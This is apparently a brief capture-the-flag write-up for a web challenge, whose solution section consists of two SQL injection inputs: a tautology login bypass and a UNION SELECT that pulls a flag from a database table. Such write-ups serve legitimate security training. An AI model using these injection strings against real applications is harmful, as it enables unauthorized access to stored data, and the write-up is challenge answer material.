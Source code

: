 ## Descripción
Can you find the flag on this website.
Additional details will be available after launching your challenge instance.


## Solución
sergio' or 1=1;
' union select id, flag, 3 from more_table;
## Notas adicionales

## Referencias
